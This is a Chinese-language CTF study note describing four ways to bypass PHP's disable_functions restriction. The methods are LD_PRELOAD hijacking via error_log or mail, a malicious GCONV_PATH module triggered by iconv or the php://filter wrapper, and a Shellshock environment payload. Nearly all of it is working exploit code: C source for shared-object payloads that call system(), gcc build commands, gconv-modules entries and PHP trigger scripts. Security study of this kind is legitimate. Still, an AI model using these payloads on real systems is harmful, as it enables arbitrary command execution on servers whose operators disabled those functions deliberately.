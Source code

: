 # 主要思路
	- 使用环境变量等方式控制php执行c库中的函数，从而绕过php自带的disabled_function安全机制
- # 参考
	- https://www.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/
	- [[CTFWEB/PHP/FFI]]
- # 提示
	- 下面的方式都需要写入文件，实际操作时可以考虑使用[[CTFWEB/PHP/利用FTP进行文件写入]]进行文件写入
- # 方式一
	- 要求
		- 允许函数putenv()和error_log()或mail()且存在可写目录和可以传输文件到靶机
	- 步骤
		- 把这个编译为`exp.so`扔进某个文件夹（例如`/tmp/`）中
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  
			  int geteuid() {
			  	if(getenv("LD_PRELOAD") != NULL) { 
			  		unsetenv("LD_PRELOAD");
			  		system("ls / > /tmp/t.txt"); // payload在这
			  	} else {
			  		return 0;
			  	}
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- PHP执行
			- ```php
			  <?php 
			  putenv("LD_PRELOAD=/tmp/exp.so");
			  # exp.so在下面这行被调用
			  error_log("",1,"","");
			  # 当然我们还有
			  mb_send_mail("a@localhost","","","","");
			  # 当然我们还有
			  mail("","","","");
			  ?>
			  ```
- # 方式二
  id:: 64f02a3a-0eae-4d6c-8b73-8b34d2a17473
	- 注意
		- 这里复现时有一个坑，就是如果PHP执行没反应需要多执行几次（大概手搓十几次这样）
	- 要求
		- 允许函数putenv()、iconv()和可以传输文件到靶机
	- 步骤
		- 把这个编译了放进目标中（比如说放进`/tmp/exp.so`）
			- ```c
			  #include <stdio.h> 
			  #include <stdlib.h> 
			  
			  void gconv() {
			  }
			  
			  void gconv_init() {  
			  	system("ls / > /tmp/t.txt");
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- 把这个写进同一个文件夹（这里是`/tmp/`）中的`gconv-modules`中
			- ```text
			  module  exp//    INTERNAL    /tmp/exp    2
			  module  INTERNAL   exp//    /tmp/exp    2
			  ```
		- 最后执行这里的php
			- ```php
			  <?php 
			  putenv("GCONV_PATH=/tmp/"); // 当然这里是tmp文件夹
			  iconv("exp", "UTF-8", "");
			  ?>
			  ```
- # 方式三
	- 方式二的变种
	- 要求：允许putenv和使用convert.iconv这个`php://`伪协议的filter
	- 步骤：和方式二相同，只不过执行的PHP变成这个：
		- ```php
		  <?php
		  putenv("GCONV_PATH=/tmp/"); 
		  include('php://filter/read=convert.iconv.exp.utf-8/resource=/proc/self/cmdline');
		  ?>
		  ```
- # 方式四
	- > 未复现
	- 当然是shell shock
		- ```php
		  <?php
		  putenv("PHP_flag=() { :; }; ls / > /tmp/t.txt");
		  error_log("",1,"","");
		  ?>
		  
		  ```